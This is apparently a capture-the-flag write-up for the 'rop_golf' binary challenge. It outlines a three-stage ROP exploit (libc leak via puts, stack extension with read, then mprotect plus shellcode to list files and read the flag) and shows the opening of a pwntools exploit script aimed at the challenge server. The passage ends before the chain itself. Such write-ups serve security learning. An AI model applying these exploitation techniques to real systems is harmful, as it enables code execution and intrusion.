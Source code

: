 Here is my solution

1. In the first rop chain, using puts to leak libc address and return back to `vuln`
2. In the second rop chain, use `pop rdx; ret`, `0x200`, `read addr`. So that I can write 0x200 more data on the stack and construct a larger rop chain. (I can do stack pivot here but im kind of lazy to do that)
3. In the third rop chain, which is now 0x200 bytes long. I first do `mprotect` on some memory pages so that i could put shellcode and gadgets on it. Then, i call `read` again to write shellcodes and essential gadgets into the memory page. Finally, I use rop chain to do a manually `ls` and read the flag.


# 0x3 Exploit

```
from pwn import *


class BinaryInfo:
    exe = "rop_golf_patched"
    libc = "libc.so.6"

    host = "rua.host.goes.here"
    port = 8000


# Set up pwntools for the correct architecture
exe = context.binary = ELF(BinaryInfo.exe)
exe_rop = ROP(exe)
if BinaryInfo.libc != "":
    libc = ELF(BinaryInfo.libc)
    libc_rop = ROP(libc)
else:
    libc = None
    libc_rop = None


# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or BinaryInfo.host
port = int(args.PORT or BinaryInfo.port)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)


def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = remote("tamuctf.com", 443, ssl=True, sni="rop-golf")
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
```